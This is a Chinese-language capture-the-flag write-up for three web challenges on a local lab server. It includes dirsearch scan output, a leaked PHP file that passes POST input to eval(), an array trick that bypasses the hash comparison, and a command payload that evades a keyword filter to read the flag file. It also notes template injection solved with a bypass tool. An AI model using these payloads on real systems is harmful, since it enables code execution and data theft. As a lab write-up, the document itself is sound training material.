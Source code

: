 ```yaml
---
title: 'Week2 Web 网络攻防'
date: '2025-04-23T20:32:27+08:00'
weight: 
draft: false
description: 'Week2 Web 网络攻防'
---
```


## 遗失的拉链

**提示：Pangbai 的拉链找不到了 你可以帮他找到他的拉链吗**

根据提示拉链应该与 `zip` 有关，这里说拉链找不到了，可以使用 dirsearch 进行目录扫描查找与 `zip` 相关的内容

```shell
python dirsearch.py -u 127.0.0.1:3307
```

扫描结果：

```shell

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\puppy\Desktop\dirsearch-0.4.3\reports\_127.0.0.1_3307\_25-04-24_09-08-17.txt

Target: http://127.0.0.1:3307/

[09:08:18] Starting:
[09:08:24] 403 -  276B  - /.ht_wsr.txt
[09:08:24] 403 -  276B  - /.htaccess.save
[09:08:24] 403 -  276B  - /.htaccess.sample
[09:08:24] 403 -  276B  - /.htaccess.orig
[09:08:24] 403 -  276B  - /.htaccess.bak1
[09:08:24] 403 -  276B  - /.htaccess_extra
[09:08:24] 403 -  276B  - /.htaccessBAK
[09:08:24] 403 -  276B  - /.htaccess_orig
[09:08:24] 403 -  276B  - /.htaccess_sc
[09:08:24] 403 -  276B  - /.htaccessOLD2
[09:08:24] 403 -  276B  - /.htaccessOLD
[09:08:24] 403 -  276B  - /.html
[09:08:24] 403 -  276B  - /.htm
[09:08:24] 403 -  276B  - /.htpasswd_test
[09:08:24] 403 -  276B  - /.httr-oauth
[09:08:24] 403 -  276B  - /.htpasswds
[09:08:58] 200 -  861B  - /index.html
[09:09:17] 200 -    3KB - /server-status/
[09:09:17] 200 -    3KB - /server-status
[09:09:32] 200 -    1KB - /www.zip

Task Completed
```

访问 `127.0.0.1:3307/www.zip`，下载解压后得到 `pizwww.php`

```php
<?php
error_reporting(0);
//for fun
if(isset($_GET['new'])&&isset($_POST['star'])){
    if(sha1($_GET['new'])===md5($_POST['star'])&&$_GET['new']!==$_POST['star']){
        //欸 为啥sha1和md5相等呢
        $cmd = $_POST['cmd'];
        if (preg_match("/cat|flag/i", $cmd)) {
            die("u can not do this ");
        }
        echo eval($cmd);
    }else{
        echo "Wrong";

    } 
}
```

![pizwww](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/pizwww.8dx3cv51r2.webp)

使用 `GET` 方式传入 `new[]=1`，`POST` 方式传入 `star[]=2&cmd=system("ca$(echo t) /fla$(echo g)");`

![PixPin_2025-05-09_20-38-25](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-38-25.6pnq5j5elj.webp)

获得 `flag`：`flag{32cba65e-2c30-0a97-726c-fc7317e00cb3}`

## 你能在一秒内打出八句英文吗

使用 Python 的 request 模块模拟请求

```Python
import requests
from bs4 import BeautifulSoup

start_url = "http://127.0.0.1:3307/start"
submit_url = "http://127.0.0.1:3307/submit"

session = requests.Session()
start_response = session.get(start_url)

soup = BeautifulSoup(start_response.text, "lxml")
element = soup.find('p', {'id': 'text'})
text = element.get_text()

payload = {'user_input' : text}
response = session.post(submit_url, data=payload)

with open('response_text/你能在一秒钟打出八句英文吗.html', 'w', encoding='utf-8') as f:
    f.write(response.text)

print('Success')
```

## 复读机

输入 `{{1+1}}` 输出 `2`，判断存在模板注入

https://github.com/Puppy1599/picx-images-hosting/raw/master/Typora/networkSecurity/PixPin_2025-05-16_23-23-55.wis6ehwd3.webp

尝试使用焚靖绕过，获得 flag

https://github.com/Puppy1599/picx-images-hosting/raw/master/Typora/networkSecurity/PixPin_2025-05-16_23-26-08.1vyvjkncih.webp

